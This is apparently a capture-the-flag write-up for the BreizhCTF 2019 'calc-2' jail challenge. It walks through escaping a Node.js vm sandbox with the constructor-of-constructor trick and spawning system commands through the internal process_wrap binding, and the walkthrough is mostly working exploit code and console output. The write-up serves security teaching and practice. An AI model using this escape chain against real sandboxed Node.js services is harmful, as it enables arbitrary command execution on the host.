 ```yaml
---
title: BreizhCTF 2019 - calc-2
authors: dabi0ne
layout: writeup
ctf_url: https://www.breizhctf.com/
---
```

Solves: 0 / Points: 400 / Category: Jail

## Challenge description 
See [challenge source code](/assets/calc2.js)

The sandbox is implemented using [Node.js `vm` module](https://nodejs.org/api/vm.html). Inside of it, we could only use the `log()` function.

## Challenge resolution
Our goal is to execute a system command to obtain the flag.

### Step one: Escape from the vm
To escape from the vm we will use a constructor of constructor to create an anonymous function with controlled body.

This is a simple example using Firefox JS console:
```js
>> this.constructor.constructor("alert(1)")
function anonymous()
>> this.constructor.constructor("alert(1)").toString()
"function anonymous(
) {
alert(1)
}"
```

Using this technique we can execute code outside the vm context.
Indeed, the `this` object, when it is returned by calling `constructor`, is not restricted to log function:
```js
>> log(this.constructor.constructor('return this')());
> EOF
[Function: anonymous]
Object [global] {
  global: [Circular],
  process:
   process {
     title: 'nodejs',
     version: 'v10.15.2',
.
.
.
  setImmediate:
   { [Function: setImmediate] [Symbol(util.promisify.custom)]: [Function] },
  setInterval: [Function: setInterval],
  setTimeout:
   { [Function: setTimeout] [Symbol(util.promisify.custom)]: [Function] } }
```

Comparing to the vm context:
```js
> log(this);
> EOF
{ log: [Function] }
```

### Step two: Execute a shell command
The `process.mainModule` of the script was cleaned so we didn't have access to the `require` function:
```js
/* remove mainModule for better security */
process.mainModule = {};
```

However, we identified that the `binding` function is available on the object returned by the constructor:
```js
> log(this.proc = this.constructor.constructor('return this.process')());

binding: [Function: binding]
```
The `binding` function allows loading internal modules. 
Firstly, we tried to read the flag from the file using the `fs` module:
```js
> log(this.constructor.constructor('return this.process.binding')()('fs')
```
Fail :( 

But we were able to list directories and identify the flag location:

```js
> log(this.constructor.constructor('return this.process.binding')()('fs').readdir('/home/guest', {}, "","", function (err, data) {data}));
```

After a tip from the challenge author:
> you don't have `child_process` and its `exec` function, so write it


So let's read [nodejs source code on Github for `child_process`](https://github.com/nodejs/node/blob/master/lib/internal/child_process.js):

The outcome is that the `child_process` uses an internal binding of `process_wrap` to execute commands by calling the `spawn` function:

```js
const { Process } = internalBinding('process_wrap');

child.spawn({
    file: opts.file,
    args: opts.args,
    cwd: options.cwd,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!options.windowsVerbatimArguments,
    detached: !!options.detached,
    envPairs: opts.envPairs,
    stdio: options.stdio,
    uid: options.uid,
    gid: options.gid
});
```

Hence, we have to create a `Process` object and call its `spawn` function to execute system commands:

1 - Check if the binding doesn't fail: 
```js
> log(this.constructor.constructor('return this.process.binding')()('process_wrap'));
> EOF
{ Process: [Function: Process] }

```
2 - Instantiate a `Process` object:
```js
> log(this.proc_wrap = this.constructor.constructor('return this.process.binding')());
> log(this.Process = this.proc_wrap('process_wrap').Process);
> log(this.process = new Process());
```

3 - Call the `spawn` function with the good parameters:

```js
> log(this.env = this.constructor.constructor('return this.process.env')());
> log(this.mproc  = this.constructor.constructor('return this.process')());
> log(this.sot = this.constructor.constructor('return this.process.stdout')());
> log(this.sin = this.constructor.constructor('return this.process.stdin')());
> log(this.rc = process.spawn({file:'/home/guest/flag_reader',args:[],cwd:"/home/guest",windowsVerbatimArguments:false,detached:false,envPairs:this.env, stdio:[mproc.stdin, mproc.stdout, mproc.stderr]}));

> EOF

breizctf_flag{FORGOTTEN_FLAG}
```

